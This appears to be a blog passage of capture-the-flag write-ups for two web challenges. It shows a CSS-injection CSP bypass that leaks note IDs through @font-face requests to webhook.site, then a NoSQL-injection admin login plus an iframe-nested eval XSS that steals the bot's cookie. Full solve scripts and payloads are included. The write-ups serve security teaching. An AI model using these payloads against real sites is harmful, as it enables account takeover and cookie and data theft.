But it is blocked by the CSP


And this is how the server defines CSP rule. It blocks all default-src `Content-Security-Policy: default-src 'none'`

```js
router.get('/:noteId', async (req, res) => {
  const { noteId } = req.params;
  try {
    const note = await Note.findById(noteId);
    if (!note) {
      return res.status(404).json({ message: 'Note not found' });
    }

    // Look mom, I wrote a raw HTTP response all by myself!
    // Can I go outside now and play with my friends?
    const responseMessage = `HTTP/1.1 200 OK
Date: Sun, 7 Nov 1917 11:26:07 GMT
Last-Modified: the-second-you-blinked
Type: flag-extra-salty, thanks
Length: 1337 bytes of pain
Server: thehackerscrew/1970 
Cache-Control: never-ever-cache-this
Allow: pizza, hugs, high-fives
X-CTF-Player-Reminder: drink-water-and-keep-hydrated
Content-Security-Policy: default-src 'none'

${note.title}: ${note.content}

`
    res.socket.end(responseMessage)
  } catch (error) {
    console.error(error);
    res.status(500).json({ message: 'Server error' });
  }
});
```

Now I investigate the bot’s behavior when we report a note. we can see that it will go to `/dashboard` contains `reviewNote` parameter

```js
async function visit(ctx, email, password, noteId){
    page = await ctx.newPage();

    // login
    await page.goto(HOSTNAME + '/login');
    await page.waitForSelector('input[name=email]');
    await page.type('input[name=email]', email);
    await page.waitForSelector('input[name=password]');
    await page.type('input[name=password]', password); 
    await page.waitForSelector('button[type=submit]');
    await page.click('button[type=submit]')

    // Review note
    await sleep(2000);
    try{
        await page.goto(HOSTNAME + '/dashboard?reviewNote='+noteId);
    } catch(error) {
        console.log(error);
    }
    await sleep(2000);
    try{page.close()} catch{};

}
```

And this is how the reviewNote feature works

```js
const reviewNote = async (reviewNoteId) => {
    const showNoteDiv = document.getElementById('show-note');
    const response = await fetch(`/api/notes/`+reviewNoteId)
    const note = await response.text();
    showNoteDiv.style.display = 'block';
    
    showNoteDiv.innerHTML = `
        <h3>Note ID: ${reviewNoteId}</h3>
        <p>${note}</p>
    `;
}

let hcaptchaWidgetId = null; 

// Get the 'reviewNote' parameter from the URL
const reviewNoteId = (new URLSearchParams(window.location.search)).get('reviewNote');

// If the reviewNote parameter exists, display it in the 'show-note' div
if (reviewNoteId) {
    reviewNote(reviewNoteId).then(()=>{fetchNotes()});
} else { 
    fetchNotes();
}
```

So we can easily add HTML via previewNote so that it will render in NoteID instead of creating a new note. I try this payload ``, but I still get blocked by CSP


The reason is the server has set CSP rule for all default routes

```js
app.use((req, res, next) => {
    // Prevent any attack
    res.setHeader('X-Frame-Options', 'DENY');
    res.setHeader('Content-Security-Policy', `script-src ${HOSTNAME}/static/dashboard.js https://js.hcaptcha.com/1/api.js; style-src ${HOSTNAME}/static/; img-src 'none'; connect-src 'self'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self'; frame-src 'none';`);
    res.setHeader('Referrer-Policy', 'no-referrer');
    res.setHeader('Cache-Control', 'no-store');
    next();
});
```

Let's check with CSP evaluator, we can see that it's such a strong rule.


### The key

But you should notice that

`style-src http://localhost:8000/static/`

This means it allows any CSS source that begins with this URL. Let's see : 

```js
// Serve static files from the 'static' folder
app.get('/static/*splat', (req, res) => {
  const requestedPath = req.path; 

  if (!requestedPath.endsWith('.js') && !requestedPath.endsWith('.css')) {
    return res.redirect(requestedPath.replaceAll('/static',''));
  }

  let file = req.path.slice(req.path.lastIndexOf('/')+1)
  const filePath = path.join(__dirname, 'static', file);
  res.sendFile(filePath);
});
```

Now we can clearly see the vulnerability is that if the filename doesn't end with .js or .css it will remove `/static` and serve the file. Otherwise it will read file from static folder.

Now let's have a small test

* create a note with title `* {color: red;}` and any content


Copy it's ID and use this html :

```html
<link rel="stylesheet" href="api/notes/fab640b8-c4d6-447f-b2e6-fbec09e3f69d">
```

Still be blocked


But what if we add `static/` path before ?


Yeeeee! Now all the text have red color and css injection is completed. Now we can leak content of bot page with @font-face [Using @font-face in CSS injection](https://tripoloski1337.github.io/webex/2024/07/24/exfil-using-only-css.html#:~:text=Since%20there%E2%80%99s%20CSP%20in%20configured%2C%20So%20we%20can%20use%20%40font%2Dface%20and%20check%20if%20the%20unicode%20is%20in%20a%20specific%20range.%20For%20example.). So we need to see what to leak


This is a bot POV and we can leak: 
* href link to flag note contains note ID in `<a>` tag
* The flag content in `<strong>` tag

Since I don't know the flag length in the remote so I choose to leak note ID. Moreover, the server doesn't check the owner of note

```js
router.get('/:noteId', async (req, res) => {
  const { noteId } = req.params;
  try {
    const note = await Note.findById(noteId);
    if (!note) {
      return res.status(404).json({ message: 'Note not found' });
    }
      
...
```

This is an example how I leak href link of a tag :

```css
@font-face{
    font-family:winkya;
    src:url('https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/a');
}
@font-face{
    font-family:winkyb;
    src:url('https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/b');
}
@font-face{
    font-family:winkyc;
    src:url('https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/c');
}
...
a[href^='/api/notes/a']{
    font-family: winkya;
}
a[href^='/api/notes/b']{
    font-family: winkyb;
}
a[href^='/api/notes/c']{
    font-family: winkyc;
}
...
```

And this is my final solve script

```python
import string
import requests
import secrets
import json

URL = "http://localhost:8000/"

ch = string.digits + string.ascii_lowercase + '-'

payload = ""
# id = "71e455ef-10b7-435d-90a1-9d5a352fbed3"
id = ""
for i in ch:
    t1 = f"""@font-face{{font-family:winky{i};src:url('https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/{i}');}}"""
    payload += t1
    
for i in ch:
    t2 = f"""a[href^='/api/notes/{id + i}']{{font-family: winky{i};}}"""
    payload += t2

username = secrets.token_hex(20)
password = secrets.token_hex(20)

session = requests.Session()

def register():
    user = {
        'email': username,
        'password': password
    }
    r = session.post(URL + 'api/auth/register', data=user)

def login():
    user = {
        'email': username,
        'password': password
    }
    r = session.post(URL + 'api/auth/login', data=user)

nid = ""

def create_note():
    note = {
        'title': 'aaaaa{color',
        'content': 'blue;}' + payload
    }
    r = session.post(URL + 'api/notes', data=note, cookies={'token': session.cookies['token']})
    j = json.loads(r.text)
    global nid
    nid = j['id']

def report():
    n = {
        'noteId': f'<link rel="stylesheet" href="static/api/notes/{nid}">'
    }
    r = session.post(URL + 'report', data=n)
    print(r.text)
    
register()
login()
create_note()
report()
```

when we run, the bot go to the link that contains CSS injection and it leaks first chars of 2 posts ID


Now change `id` to 2 and continue to run script we will have next char. Use the same strategy we will have flag in remote: 


`Flag: crew{now_you_solved_it_in_the_right_way_fBi4WVX1kGzPtavs}`

## bi0sCTF2025 / My Flask App


Source: https://github.com/threalwinky/CTF-archive/tree/main/My%20Flask%20App/

Bài này có flag khi ta report admin bot và lấy được cookie của bot:

```python!
from playwright.sync_api import sync_playwright
import os

def visit(url):
    admin_password = os.getenv("ADMIN_PASSWORD", "admin")
    flag = os.getenv("FLAG", "bi0sctf{testflag}")

    with sync_playwright() as p:

        browser = p.chromium.launch(
            headless=True,
            args=[
                "--no-sandbox",
                "--disable-dev-shm-usage",
                "--disable-gpu"
            ]
        )
        page = browser.new_page()

        try:

            page.goto("http://localhost:5000/login", wait_until="networkidle")
            page.wait_for_timeout(1000)

            # Fill out the login form
            page.fill("#username", "admin")
            page.fill("#password", admin_password)
            page.click("button[type='submit']")
            print("Logged in as admin")

            page.wait_for_timeout(1000)  

            page.context.add_cookies([{
                'name': 'flag',
                'value': flag,
                'domain': 'localhost',
                'path': '/',
                'httpOnly': False,
                'sameSite': 'Lax',
                'secure': False
            }])

            print(f"Visiting URL: {url}")
            page.goto(url, wait_until="networkidle")
            page.wait_for_timeout(3000)  

        except Exception as e:
            print(f"Bot error: {str(e)}")
        finally:
            browser.close()
```

Đây là một dạng bài XSS trong đó mình tìm cách để thực hiện một đoạn code javascript tùy ý trên web và khi report bot có thể vào trang web đã dính script. Đầu tiên ta cần đọc qua source: 

```python!
# app.py

from flask import Flask, request, jsonify, session, render_template, redirect
from functools import wraps
from pymongo import MongoClient
from bson.objectid import ObjectId
import os
from bot import visit

# Initialize MongoDB

client = MongoClient(os.getenv("MONGO_URI", "mongodb://localhost:27017/"))


def init_db():
    db = client["user_db"]
    users_collection = db["users"]
    # create an admin user if it doesn't exist
    if not users_collection.find_one({"username": "admin"}):
        users_collection.insert_one(
            {
                "username": "admin",
                "password": os.getenv("ADMIN_PASSWORD", "admin"),
                "bio": "",
            }
        )
        print("Admin user created with default password.")
    return users_collection


app = Flask(__name__)

# set session sercret key
app.config["SECRET_KEY"] = os.urandom(24)


# set CSP header for all responses
@app.after_request
def set_csp(response):
    response.headers["Content-Security-Policy"] = (
        "default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' ;"
    )
    return response


def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if "username" not in session:  # Check if user is logged in
            return jsonify({"error": "Unauthorized access"}), 401
        return f(*args, **kwargs)

    return decorated_function


def check_admin(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if session.get("username") != "admin":  # Check if user is admin
            return jsonify({"error": "Unauthorized access"}), 401
        return f(*args, **kwargs)

    return decorated_function


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "GET":
        return render_template("register.html")

    data = request.json
    username = data.get("username")
    password = data.get("password")

    # only alphanumeric characters and spaces in username
    username = "".join(filter(lambda x: x.isalnum() or x.isspace(), username))

    if not username or not password:
        return jsonify({"error": "Username and password are required"}), 400
    try:
        if users_collection.find_one({"username": username}):
            return jsonify({"error": "Username already exists"}), 400
        users_collection.insert_one(
            {"username": username, "password": password, "bio": ""}
        )
        session["username"] = username  # Log the user in after registration
        return jsonify({"message": "User registered successfully"}), 201
    except Exception as e:
        return jsonify({"error": str(e)}), 500


@app.route("/login", methods=["GET", "POST"])
def login():
    # Handle user login with session management
    if request.method == "GET":
        return render_template("login.html")

    data = request.json
    username = data.get("username")
    password = data.get("password")
    if not username or not password:
        return jsonify({"error": "Username and password are required"}), 400
    user = users_collection.find_one({"username": username, "password": password})
    if user:
        session["username"] = username  # Store username in session
        return jsonify({"message": "Login successful"}), 200
    else:
        return jsonify({"error": "Invalid credentials"}), 401


@app.route("/update_bio", methods=["POST"])
@login_required
def update_bio():

    username = session.get("username")
    if not username or username == "admin":
        return jsonify({"error": "Invalid user"}), 401

    data = request.json
    if "username" in data or "password" in data:
        return jsonify({"error": "Cannot update username or password"}), 400
    bio = data.get("bio", "")   
    if not bio or any(
        char not in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 "
        for char in bio
    ):
        return jsonify({"error": "Invalid bio"}), 400

    result = users_collection.update_one({"username": username}, {"$set": data})
    if result.matched_count > 0:
        return jsonify({"message": "Bio updated successfully"}), 200
    else:
        return jsonify({"error": "Failed to update bio"}), 500


@app.route("/users")
@login_required
@check_admin
def users():
    return render_template("users.html")


@app.route("/api/users", methods=["GET"])
@login_required
@check_admin
def get_users():
    name = request.args.get("name")
    print(f"Searching for users with name: {name}")
    if name:
        users = list(
            users_collection.find(
                {"username": {"$regex": name, "$options": "i"}},
                {"_id": 0, "password": 0},
            )
        )
    else:
        return jsonify({"error": "Name is required"}), 400
    return jsonify(users), 200


@app.route("/render")
@login_required
@check_admin
def render_page():
    return render_template("render.html")


@app.route("/report", methods=["GET", "POST"])
@login_required
def report():
    if request.method == "GET":
        return render_template("report.html")

    data = request.json
    name = data.get("name")
    if not name:
        return jsonify({"error": "Name is required"}), 400
    url = f"http://localhost:5000/users?name={name}"
    try:
        visit(url)
        return jsonify({"message": f"Bot visited /users?name={name}"}), 200
    except Exception as e:
        return jsonify({"error": f"Bot failed to visit URL: {str(e)}"}), 500


if __name__ == "__main__":
    users_collection = init_db()
    app.run(host="0.0.0.0", port=int(os.getenv("PORT", 5000)))

```

Đúng như dạng XSS là có một endpoint /report dùng để report profile của một người dùng. Vậy nhiệm vụ của ta là làm sao trang để report đó chạy được script

Ở đây để xem được profile của user thì buộc phải là admin và mình để ý đoạn code sau:

```python!
@app.route("/login", methods=["GET", "POST"])
def login():
    # Handle user login with session management
    if request.method == "GET":
        return render_template("login.html")

    data = request.json
    username = data.get("username")
    password = data.get("password")
    if not username or not password:
        return jsonify({"error": "Username and password are required"}), 400
    user = users_collection.find_one({"username": username, "password": password})
    if user:
        session["username"] = username  # Store username in session
        return jsonify({"message": "Login successful"}), 200
    else:
        return jsonify({"error": "Invalid credentials"}), 401

```

Ở đây sử dụng data từ mongodb và không có một filter nào nên ta dễ dàng thực hiện NoSQL Injection như sau:

```json!
{
    "username":"admin",
    "password":{
        "$ne":"abc"
    }
}
```

Đăng nhập thành công: 


Dashboard của admin:


Để xem được profile thì mình tạo một user winky mới và sử dụng endpoint /users như sau:


Ok và ta đã thành công đăng nhập admin và xem được bây giờ làm sao để thực hiện XSS? 

Đọc lại đoạn CSP sau:


```python!
# set CSP header for all responses
@app.after_request
def set_csp(response):
    response.headers["Content-Security-Policy"] = (
        "default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' ;"
    )
    return response
```

Và file users.js

```js!
document.addEventListener("DOMContentLoaded", async function() {
    const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
    // get url serach params
    const urlParams = new URLSearchParams(window.location.search);
    const name = urlParams.get('name');
    if (name) {
        fetch(`/api/users?name=${name}`)
            .then(response => response.json())
            .then(data => {
                frames = data.map(user => {
                    return `
                        <iframe src="/render?${Object.keys(user).map((i)=> encodeURI(i+"="+user[i]).replaceAll('&','')).join("&")}"></iframe>
                    `;
                }).join("");
                document.getElementById("frames").innerHTML = frames;
            })
            .catch(error => {
               console.log("Error fetching user data:", error);
            })
        
    }
    if(window.name=="admin"){
            js = urlParams.get('js');
            if(js){
                eval(js);
            }
            
    }
    
})
```

Để ý có dòng eval(js) và csp cho phép chạy script unsafe-eval nên mình chắc chắn đây là hướng duy nhất để chạy script.

Nhưng làm sao để trigger được cái eval này? Điều kiện của nó là window.name=="admin" và có một param 'js' chứa lệnh cần eval.

Ta ngó lại file render.html:

```html!
<!DOCTYPE html>
<html>
    <head>
        <title>Profile</title>
        <link rel="stylesheet" type="text/css" href="{{ url_for('static', filename='style.css') }}">

    </head>
    <body>
        <div class="container">
           <h1>User Profile</h1>
            <p id="name">{{ request.args.get('username') }}</p>
            <p id="bio">{{ request.args.get('bio') |safe }}</p>
        </div>
</html>
```

Để ý răng bio truyền vào có thể là một html tag và được render nên ta có thể chèn vào iframe hoặc script. Nhưng ... bio chỉ chứa các char trong đoạn "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 ".


Vậy làm sao để bypass? Ở đây mình để ý 

```html!
<iframe src="/render?${Object.keys(user).map((i)=> encodeURI(i+"="+user[i]).replaceAll('&','')).join("&")}"></iframe>
```

Khi render iframe thì web sẽ replace các dấu & có trong các attribute của object của user và join lại với nhau. Từ đây ta có cách bypass là thêm một dấu & trước bio và update từ đó bypass được.

Và thành công ta đã chèn được một iframe vào profile như sau:


Từ đây, ta sẽ có hướng tấn công như sau:

+ Vì chỉ có file users.html là chứa users.js nên ta có thể khai thác được lệnh eval nhưng nó cũng chứa file index.js và làm cho window.name='notadmin' nên không thể khai thác được.
+ File render.html thì không include file js nào nhưng ta có thể tự include thông qua bio và ta sẽ chèn một đoạn `<script src='http://localhost:5000/static/users.js'></script>` Từ đó lấy được file users.js mà không liên quan tới file index.js
+ Về phần params thì ta cũng sẽ truyền qua /render nhưng vì đoạn render iframe đã filter dấu & nên ta phải render 2 lần iframe để sử dụng %26 thay vì &

Trước tiên ta sẽ bypass đoạn %26 trước để làm được thì ta add một đoạn bio như sau:


Vậy là đã chèn được 2 param lúc này mình cần chỉnh lại param và window.name thành 'admin' như sau:


```html!
<iframe src='http://localhost:5000/render?bio=<iframe src=\"http://localhost:5000/render?bio=<script src=%27http://localhost:5000/static/users.js%27></script>%26js=alert(1)\" name=\"admin\" />' />
```

Trong đó bio là `<script src=%27http://localhost:5000/static/users.js%27>` để load file js, js là alert(1) để test XSS và window.name='admin' để thỏa yêu cầu. Và bumphhhhh....


Vậy là đã chạy script tùy ý thành công. Bây giờ ta phải tìm cách để lấy cookie của admin và lưu lại ở đâu đó để ta có thể xem lại vì đó là flag. Nhận ra rằng CSP đã cấm chạy lệnh fetch webhook vì fetch content không thuộc trang web lúc này ta mới nghĩ đến việc lấy cookie và thay đổi bio của admin vì ta cũng đang có thể truy cập tài khoản admin thông qua NoSQL injection.

Nhưng .... Làm gì dễ thế

```python!
@app.route("/update_bio", methods=["POST"])
@login_required
def update_bio():

    username = session.get("username")
    if not username or username == "admin":
        return jsonify({"error": "Invalid user"}), 401
```

Ở đây web cấm user admin đổi bio luôn. Ngó qua ngó lại thì mình thấy chỉ còn /register là dùng được từ đó mình có thể sử dụng /api/users để xem user được tạo ra là flag

Từ đó ta có một lệnh fetch như sau:

```js!
fetch('http://localhost:5000/register', {
  method: 'POST',
  headers: {
    'Host': 'localhost:5000',
    'Content-Length': '45',
    'Accept-Language': 'en-US,en;q=0.9',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
  },
  body: JSON.stringify({
    'username': btoa(document.cookie),
    'password': 'cccccccc'
  })
});
```

Trong đó username là cookie đã được base64 đã bypass filter. Mình tiến hành base64 và có payload như sau:


```request!
POST /update_bio HTTP/1.1
Host: localhost:5000
Content-Length: 961
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: http://localhost:5000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:5000/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6Indpbmt5In0.aEW7Fw.H3OBF8LPjbmZEDSMIJNZlY6Bn0A
Connection: keep-alive

{
"&bio":"<iframe src='http://localhost:5000/render?bio=<iframe src=\"http://localhost:5000/render?bio=<script src=%27http://localhost:5000/static/users.js%27></script>%26js=eval(atob(%27ZmV0Y2goJ2h0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9yZWdpc3RlcicsIHsKICBtZXRob2Q6ICdQT1NUJywKICBoZWFkZXJzOiB7CiAgICAnSG9zdCc6ICdsb2NhbGhvc3Q6NTAwMCcsCiAgICAnQ29udGVudC1MZW5ndGgnOiAnNDUnLAogICAgJ0FjY2VwdC1MYW5ndWFnZSc6ICdlbi1VUyxlbjtxPTAuOScsCiAgICAnVXNlci1BZ2VudCc6ICdNb3ppbGxhLzUuMCAoWDExOyBMaW51eCB4ODZfNjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzQuMC4wLjAgU2FmYXJpLzUzNy4zNicsCiAgICAnQ29udGVudC1UeXBlJzogJ2FwcGxpY2F0aW9uL2pzb24nLAogICAgJ0FjY2VwdCc6ICcqLyonLAogICAgJ0FjY2VwdC1FbmNvZGluZyc6ICdnemlwLCBkZWZsYXRlLCBicicsCiAgICAnQ29ubmVjdGlvbic6ICdrZWVwLWFsaXZlJwogIH0sCiAgYm9keTogSlNPTi5zdHJpbmdpZnkoewogICAgJ3VzZXJuYW1lJzogYnRvYShkb2N1bWVudC5jb29raWUpLAogICAgJ3Bhc3N3b3JkJzogJ2NjY2NjY2NjJwogIH0pCn0pOwoK%27))\" name=\"admin\" />' />",
"bio":"hello from winky"
}
```

Tiến hành report user winky và thấy có 1 request register như sau:


Vậy là đã đăng ký được một user có username là flag. Bây giờ chỉ cần tìm user bằng /api/users


Solve script hoàn chỉnh:

```python!
import requests
import json
import base64

s = requests.session()
CHALL_URL = "http://app-imqvl28e.eng.run/"

def register(s):
    username = "winky"
    password = "12345678"
    json_data = {
        "username": username,
        "password": password
    }
    s.post(CHALL_URL + "register", json=json_data)
    print(f"[*] Registered successfully user {username}")

def login(s):
    username = "winky"
    password = "12345678"
    json_data = {
        "username": username,
        "password": password
    }
    s.post(CHALL_URL + "login", json=json_data)
    print(f"[*] Login successfully user {username}")

def update_bio(s):
    json_data={
        "&bio": "<iframe src='http://localhost:5000/render?bio=<iframe src=\"http://localhost:5000/render?bio=<script src=%27http://localhost:5000/static/users.js%27></script>%26js=eval(atob(%27ZmV0Y2goJ2h0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9yZWdpc3RlcicsIHsKICBtZXRob2Q6ICdQT1NUJywKICBoZWFkZXJzOiB7CiAgICAnSG9zdCc6ICdsb2NhbGhvc3Q6NTAwMCcsCiAgICAnQ29udGVudC1MZW5ndGgnOiAnNDUnLAogICAgJ0FjY2VwdC1MYW5ndWFnZSc6ICdlbi1VUyxlbjtxPTAuOScsCiAgICAnVXNlci1BZ2VudCc6ICdNb3ppbGxhLzUuMCAoWDExOyBMaW51eCB4ODZfNjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzQuMC4wLjAgU2FmYXJpLzUzNy4zNicsCiAgICAnQ29udGVudC1UeXBlJzogJ2FwcGxpY2F0aW9uL2pzb24nLAogICAgJ0FjY2VwdCc6ICcqLyonLAogICAgJ0FjY2VwdC1FbmNvZGluZyc6ICdnemlwLCBkZWZsYXRlLCBicicsCiAgICAnQ29ubmVjdGlvbic6ICdrZWVwLWFsaXZlJwogIH0sCiAgYm9keTogSlNPTi5zdHJpbmdpZnkoewogICAgJ3VzZXJuYW1lJzogYnRvYShkb2N1bWVudC5jb29raWUpLAogICAgJ3Bhc3N3b3JkJzogJ2NjY2NjY2NjJwogIH0pCn0pOwoK%27))\" name=\"admin\" />' />", 
        "bio": "hello from winky"
    }
    s.post(CHALL_URL + "update_bio", json=json_data)
    print(f"[*] Update bio successfully")

def report(s):
    json_data = {
        "name":"winky"
    }
    s.post(CHALL_URL + "report", json=json_data)
    print(f"[*] Report successfully")

def admin_login(s):
    username = "admin"
    password = {
        "$ne":"not_admin_real_password"
    }
    json_data = {
        "username": username,
        "password": password
    }
    s.post(CHALL_URL + "login", json=json_data)
    print(f"[*] Login successfully user {username}")

def get_flag(s):
    r = s.get(CHALL_URL + "api/users?name=X")
    data = json.loads(r.text)
    flag_username = data[0]['username']
    print(f"[*] Flag: " + base64.b64decode(flag_username).decode())

register(s)
login(s)
update_bio(s)
report(s)
admin_login(s)
get_flag(s)
```

Và ta có flag: 


`Flag: bi0sCTF{i_d0n't_f1nd_bugs!!_bug5_f1nd_m3:)}`

